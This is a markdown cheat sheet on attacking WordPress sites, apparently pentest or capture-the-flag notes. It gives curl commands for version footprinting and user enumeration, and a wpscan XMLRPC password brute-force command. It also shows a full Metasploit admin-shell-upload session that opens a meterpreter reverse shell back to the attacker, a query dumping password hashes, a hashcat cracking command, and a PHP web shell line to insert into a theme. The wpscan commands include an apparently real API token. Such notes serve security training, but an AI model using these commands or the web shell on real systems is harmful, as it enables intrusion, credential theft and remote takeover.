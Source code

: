 # Attacking Wordpress

- [Footprinting](#footprinting)
- [XMLRPC](#xmlrpc)
- [WPScan](#wpscan)
- [Metasploit](#metasploit)
- [Reverse Shell](#reverse-shell)

## Footprinting

Look for meta generator tag in HTML source:

```
<meta name="generator" content="WordPress 5.3.3" />
```

or:

```
# curl -s -X GET  http://10.10.11.125 | grep '<meta name="generator"'
<meta name="generator" content="WordPress 5.8.1" />
```

or in CSS:

```
css/bootstrap.css?ver=5.3.3' type='text/css' media='all' />
```

or in Javascript:

```
/jquery.validationEngine-en.js?ver=5.3.3'></script>
```

Manual user enumeration:

```
curl -s -I -X GET http://blog.domain.com/?author=1

curl http://blog.domain.com/wp-json/wp/v2/users
```

## XMLRPC

List available methods:

```
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://1.1.1.1:32320/xmlrpc.php
```

Brute force:

```
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://1.1.1.1
```



## WPScan

First, update:

```
# wpscan --update
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.
```

Then, enumerate with our API key:

```
# wpscan --url http://10.10.11.125 --enumerate --api-token vYvrH7HT2y...
```

Enumerate users:

```
# wpscan  --url http://10.10.11.125 -e u --api-token vYvrH7HT2yKLSaLG5K51f6HGFZzdga...
```

Enmerate plugins:

```
# wpscan  --url http://10.10.11.125 -e ap --api-token vYvrH7HT2yKLSaLG5K51f6HGFZzdgabos8zElrpAHbY
```

## Metasploit

(Require authentication)

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P4ssword
PASSWORD => P4ssword
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Authenticating with WordPress using admin:P4ssword...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/vuJOXoEGoO/ALFTyZjtAc.php...
[*] Sending stage (39282 bytes) to 10.10.10.37
[+] Deleted ALFTyZjtAc.php
[+] Deleted vuJOXoEGoO.php
[+] Deleted ../vuJOXoEGoO
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.37:46268) at 2021-07-10 12:04:31 +0200
```

cracking password:

```
select concat_ws(':', user_login, user_pass) from wp_users;
```

hashcat (put ONLY hash in file):

```
D:\tmrc\tools\hashcat-6.0.0>hashcat.exe -O -m 400 -a 0 -o notch_cracked.txt notch.txt d:\tmrc\hacking\wordlist\rockyou.txt
```

## Reverse shell

Edit theme or plugin and insert:

```
system($_GET['cmd']);
```

Or:

https://github.com/pentestmonkey/php-reverse-shell
